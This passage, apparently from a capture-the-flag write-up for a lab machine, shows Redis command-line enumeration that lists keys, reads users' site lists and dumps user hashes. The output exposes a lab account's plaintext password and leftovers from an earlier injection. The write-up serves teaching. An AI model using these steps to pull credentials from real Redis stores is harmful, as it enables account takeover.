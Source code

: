     
    
    redis /var/run/redis/redis.sock> keys *
    1) "cooper.dooper:sites"
    2) "cooper.dooper"
    3) "oxdf"
    4) "PHPREDIS_SESSION:rbb8bp6umb0logs0i3sqlcp5kc"
    5) "oxdf:sites"
    

`oxdf:sites` and `cooper.dooper:sites` are the lists of sites for that user.
It’s generated in the source with `LPUSH`, pushing items onto a list. `LRANGE`
reads a list, taking a start and stop index. The
[docs](https://redis.io/commands/lrange/) show that if the stop is -1, it’ll
read to the end, so I can read the full lists:

    
    
    redis /var/run/redis/redis.sock> LRANGE oxdf:sites 0 -1
    1) "oxdf"
    redis /var/run/redis/redis.sock> LRANGE cooper.dooper:sites 0 -1
    1) "sunny"
    

`HGETALL` will dump all the fields in a hash:

    
    
    redis /var/run/redis/redis.sock> HGETALL oxdf
     1) "username"
     2) "oxdf"
     3) "password"
     4) "oxdf"
     5) "first-name"
     6) "modified"
     7) "last-name"
     8) "oxdf"
     9) "pro"
    10) "true"
    11) "first-nameedit"
    12) "modified"
    13) ".microbucket.htb/0xdf.js"
    14) "HTTP/1.0"
    

It seems to return the field as one, followed by the value in the next. 13 and
14 are artifacts of my injection in the previous step.

    
    
    redis /var/run/redis/redis.sock> HGETALL cooper.dooper
     1) "username"
     2) "cooper.dooper"
     3) "password"
     4) "zooperdoopercooper"
     5) "first-name"
     6) "Cooper"
     7) "last-name"
     8) "Dooper"
     9) "pro"
    10) "false"
    
